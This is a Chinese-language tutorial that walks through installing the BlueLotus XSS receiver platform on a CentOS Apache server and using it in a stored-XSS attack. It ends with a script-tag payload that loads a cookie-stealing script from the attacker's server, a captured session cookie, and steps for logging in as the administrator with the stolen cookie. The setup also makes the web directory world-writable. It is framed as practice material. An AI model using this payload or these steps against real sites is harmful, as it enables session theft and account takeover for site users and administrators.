

## 一、前言
本平台是个人轻量级XSS测试平台，仅作为练习参考。
## 二、实验环境
服务器操作系统：Centos 7
Web容器：Apache
## 三、平台搭建过程
安装Apache
安装PHP
安装Git工具
从GitHub克隆XSS平台源码
删除默认网站内容
rm  -rf  /var/www/*
创建新的网站目录
mkdir  /var/www/xss
从GitHub克隆xss测试源码（https://github.com/firesunCN/BlueLotus_XSSReceiver.git）
git  clone  https://github.com/firesunCN/BlueLotus_XSSReceiver.git  /var/www/xss/
给xss目录
chmod  -R  777  /var/www/xss/
配置Apache
创建虚拟主机配置文件夹
mkdir  /etc/httpd/conf/vhost
创建并编辑虚拟机配置文件
vi  /etc/httpd/conf/vhost/httpd-vhosts.conf
添加以下内容：
```
><VirtualHost *:80>
>       DocumentRoot "/var/www/xss"
>       DirectoryIndex admin.php
></VirtualHost>
```
编辑httpd.conf文件
vi  /etc/httpd/conf/httpd.conf


允许使用 .htaccess文件

添加之前创建的虚拟主机
Include  /etc/httpd/conf/vhost/httpd-vhosts.conf

开机启动Apache服务
chkconfig  httpd  on
重新加载Apache配置文件
systemctl  start  httpd
回到浏览器访问服务器结果显示无法访问网站，经过排查是防火墙拦了。
命令行配置防火墙开放80端口
firewall-cmd --zone=public --add-port=80/tcp --permanent
重启防火墙
systemctl  restart  firewalld
安装XSS平台
访问服务器ip地址，点击安装

主要修改后台登录密码和数据加密密码，其余保持默认，然后提交

若报错则手动安装，手动安装步骤：
首先切换到网站跟目录
cd  /var/www/xss
将配置文件改名
mv  config_sample.php   config.php
删除install.php文件
rm  -f  install.php
若要修改密码信息只需修改config.php文件
安装成功，点击登录

成功登录

功能测试
点击我的JS，插入模板，选择Defualt.js，修改网站服务器ip地址
http://192.168.75.129/index.php

生成payload
```
><script src="http://192.168.75.129/myjs/cookie.js"></script>
```

成功获取用户cookie
ASPSESSIONIDCQBSTQBB=BHILNFDBLNPBDMOBFPHNOFBJ 
利用Google浏览器插件edit this cookie修改cookie登录
到此存储型xss注入获取管理员cookie并登录已经圆满完成。
